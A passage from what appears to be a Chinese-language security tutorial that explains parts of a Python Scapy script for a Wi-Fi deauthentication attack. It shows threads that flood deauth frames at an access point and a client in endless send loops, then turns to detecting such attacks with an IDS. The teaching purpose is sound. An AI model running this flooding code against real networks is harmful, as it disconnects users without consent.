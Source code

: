 +   以下代码告诉线程攻击去攻击 deauth 攻击：

```py
  if victim_mac!="FF:FF:FF:FF:FF:FF":
    t1 = Thread(target=for_ap, args=(frame,interface))
    t1.start()
  t2 = Thread(target=for_client, args=(frame1,interface))
  t2.start()
```

在最后一行，`sendp(frame,iface=interface, count= 1000, inter= .1)`，`count`给出发送的数据包总数，`inter`表示两个数据包之间的间隔：

```py
def for_ap(frame,interface):
  while True:
    sendp(frame, iface=interface, count=20, inter=.001)

def for_client(frame,interface):
  while True:
    sendp(frame, iface=interface, count=20, inter=.001)

if __name__ == '__main__':
  main()
```

`deauth.py`程序的输出如下：

![](img/691a0ae7-cfca-4635-b748-94d0223e6e3d.jpg)

这种攻击的目的不仅是执行去认证攻击，还要检查受害者的安全系统。IDS 应该有能力检测去认证攻击。到目前为止，还没有避免攻击的方法，但可以检测到攻击。

# 检测 deauth 攻击
